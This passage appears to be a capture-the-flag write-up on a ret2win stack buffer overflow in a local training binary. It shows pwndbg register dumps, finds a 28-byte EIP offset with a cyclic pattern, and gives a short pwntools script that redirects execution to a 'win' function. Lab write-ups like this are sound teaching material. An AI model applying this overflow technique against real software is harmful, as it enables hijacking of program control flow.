 ```
*EBP  0x61616161 ('aaaa')
*ESP  0xffffcd10 ◂— 'aaaaaaaaaaaaaaaaaaaaaa'
*EIP  0x61616161 ('aaaa')
```

Next step is control the EIP, so we need to find the offset. First we need to create a pattern.

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

Once sended the payload we will see that the EIP has been overwritten with `haaa`.

```
pwndbg> run
Starting program: /home/mvaliente/KaliShared/learn/pwn/CTF/pwn/binary_exploitation_101/03-return_to_win/ret2win 
Name:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Hi there, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616168 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────
*EAX  0x6f
*EBX  0x61616166 ('faaa')
 ECX  0x0
*EDX  0xf7fc2540 ◂— 0xf7fc2540
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049230 (__libc_csu_init) ◂— push ebp
*EBP  0x61616167 ('gaaa')
*ESP  0xffffcd10 ◂— 'iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EIP  0x61616168 ('haaa')
```
With `cyclic` we can see the offset.

```
pwndbg> cyclic -l haaa
Finding cyclic pattern of 4 bytes: b'haaa' (hex: 0x68616161)
Found at offset 28
```

Finally we just need to send 28 bytes of dummy data and the memory address of the hacked function `0x08049182`.

```python
from pwn import *
io = process('./ret2win')
#Hacked function address 0x08049182
payload = 28 * b'A' + b'\x82\x91\x04\x08'
io.sendlineafter(b':', payload)
print(io.recvall())
```
